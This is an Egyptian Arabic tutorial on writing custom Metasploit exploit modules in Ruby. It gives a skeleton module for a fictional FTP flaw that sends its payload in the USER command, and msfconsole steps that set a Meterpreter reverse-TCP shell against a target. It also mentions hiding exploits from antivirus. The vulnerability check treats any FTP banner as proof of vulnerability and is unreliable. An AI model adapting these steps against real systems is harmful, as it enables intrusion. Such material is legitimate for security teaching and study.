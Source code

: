 ## **🔥 تقنيات متقدمة في Metasploit: كتابة Exploits مخصصة 🔥**

### **🔹 يعني إيه نكتب Exploit مخصص؟**

الـ `Exploit` هو **كود استغلال** بيستفيد من ثغرة في نظام أو برنامج معين علشان نقدر نتحكم فيه. أحيانًا، الأدوات الجاهزة في `Metasploit` **مش بتكون كافية**، فبالتالي بنحتاج نكتب **Exploit مخصص** بنفسنا عشان يناسب الهدف.

✅ **ليه ممكن تحتاج تكتب Exploit بنفسك؟**

- لما تلاقي **ثغرة جديدة** مش موجودة في Metasploit.
- لما يكون **الـ Exploit الجاهز مش شغال** على الهدف بتاعك.
- لما تكون عايز **تحسن أداء Exploit معين أو تخفيه عن الـ Antivirus**.

🎯 **💬 الخلاصة بالمصري:**  
"لو Metasploit مش عنده Exploit يشتغل على الهدف، لازم تكتب واحد بنفسك عشان تستغل الثغرة!" 🚀😏

---

## **🟢 1. فهم بنية Exploit في Metasploit**

📌 أي `Exploit` في `Metasploit` بيتكون من **4 أجزاء رئيسية**:

1. **Module Info**: بيانات تعريف الـ Exploit (الاسم، الوصف، الهدف…).
2. **Check Function**: بيحدد إذا كان الهدف مصاب بالثغرة ولا لأ.
3. **Payload Delivery**: طريقة تنفيذ الكود الضار على الهدف.
4. **Exploit Execution**: الكود اللي بينفذ الثغرة فعليًا.

🎯 **💬 الخلاصة بالمصري:**  
"أي Exploit لازم يكون فيه بيانات، طريقة فحص، تنفيذ الكود، وإرسال البايلود!" 📝💣

---

## **🟢 2. إنشاء Exploit مخصص في Metasploit**

📌 **مثال عملي:** هنكتب Exploit بسيط يستغل ثغرة في `FTP Server` وهمي.

1️⃣ **افتح محرر النصوص واكتب الـ Exploit**

```ruby
# -*- coding: binary -*-
require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Custom FTP Exploit',
      'Description'    => 'Exploit ثغرة وهمية في سيرفر FTP',
      'Author'         => ['YourName'],
      'License'        => MSF_LICENSE,
      'Payload'        => { 'Space' => 1000 },
      'Targets'        => [['Universal', {}]],
      'DefaultTarget'  => 0
    ))

    register_options(
      [
        Opt::RHOST(),
        Opt::RPORT(21)
      ])
  end

  def check
    connect
    sock.put("USER anonymous\r\n")
    res = sock.get
    disconnect

    if res && res.include?("220")
      return Exploit::CheckCode::Vulnerable
    end

    return Exploit::CheckCode::Safe
  end

  def exploit
    connect
    sock.put("USER " + payload.encoded + "\r\n")
    disconnect
  end
end
```

---

## **🟢 3. حفظ وتشغيل الـ Exploit في Metasploit**

📌 **لحفظ الـ Exploit في Metasploit:**

1. احفظه في المسار:
    
    ```bash
    ~/.msf4/modules/exploits/custom_ftp.rb
    ```
    
2. شغل `Metasploit` واكتب:
    
    ```bash
    msfconsole
    reload_all
    use exploit/custom_ftp
    set RHOST <target_ip>
    set PAYLOAD windows/meterpreter/reverse_tcp
    exploit
    ```
    

🎯 **💬 الخلاصة بالمصري:**  
"بنكتب Exploit بلغة Ruby، نحفظه في مسار Metasploit، وبعد كده نشغله بالـ msfconsole!" 🏴‍☠️🔥

---

## **🛠️ خطوات عملية لكتابة Exploit مخصص في Metasploit**

✅ **1. حدد الثغرة** اللي عايز تستغلها (ابحث عن CVEs أو حلل البرنامج بنفسك).  
✅ **2. استخدم Ruby** لكتابة الـ Exploit الخاص بيك وحفظه في مسار `Metasploit`.  
✅ **3. أضف طريقة تحقق (Check Function)** عشان تعرف الهدف مصاب بالثغرة ولا لأ.  
✅ **4. أضف طريقة استغلال (Exploit Function)** عشان ترسل الـ Payload المناسب.  
✅ **5. احفظ الكود وشغل Metasploit**، وبعدها جرب تشغيل الـ Exploit على الهدف.

🎯 **💬 الخلاصة النهائية بالمصري:**  
"لما الـ Exploits الجاهزة مش تنفع، بنكتب واحد بنفسنا بلغة Ruby، نحطه في Metasploit، ونجربه على الهدف!" 🤖💥